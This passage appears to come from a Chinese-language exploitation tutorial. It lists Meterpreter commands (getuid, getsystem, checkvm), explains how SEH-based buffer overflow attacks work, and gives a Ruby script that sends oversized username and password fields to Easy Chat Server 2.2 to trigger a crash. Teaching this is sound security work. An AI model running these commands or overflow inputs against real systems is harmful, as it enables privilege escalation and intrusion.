 ```
getuid
getsystem
getuid
run checkvm
getpid
```

当时间是金钱时，创建这样的脚本总是很方便的。

# 结构化异常处理程序的基本原理

异常是在程序执行过程中发生的事件。在操作系统中，我们有两种不同类型的异常，即硬件和软件。CPU 在执行某些指令和访问无效内存地址时，会出现硬件异常。基于软件的异常由操作系统上当前运行的程序和应用程序启动。

**结构化异常处理**（**SEH**）是一种处理操作系统中发生的两种类型异常的机制。当我们向可利用环境中的应用程序发送数据时，它将引发异常，异常处理程序将处理该异常。这将防止目标软件崩溃。这使软件免受溢出攻击。让我们讨论如何处理这些情况，以及如何在应用程序中绕过基于 SEH 的保护。

## 控制 SEH

基于 SEH 的攻击的目的是覆盖处理所有异常的 SEH 块的地址。此外，目的是获得加载外壳代码所需的确切位置。现在，我们如何才能做到这一点？让我们看一个基于 SEH 的漏洞利用示例。

这里，我们有一个名为**Easy Chat Server**的应用程序，版本为 2.2。此应用程序使用 SEH 处理不需要的异常。此应用程序的界面如以下屏幕截图所示：

![Controlling SEH](img/2223OS_03_38.jpg)

让我们创建一个示例 Ruby 脚本，看看应用程序是否在某个地方崩溃。但是，请确保将其附加到调试器。让我们看看脚本：

```
require 'net/http'
require 'uri'
require 'socket'
buffstuff = "\x41" * 300
targeturl = URI.parse('http://192.168.75.141')
responc = Net::HTTP.start(targeturl.host,82) {|http|
http.get('/chat.ghp?username=' +buffstuff+ '&password=' +buffstuff+ '&room=1&sex=2')
}
puts responc.body
```
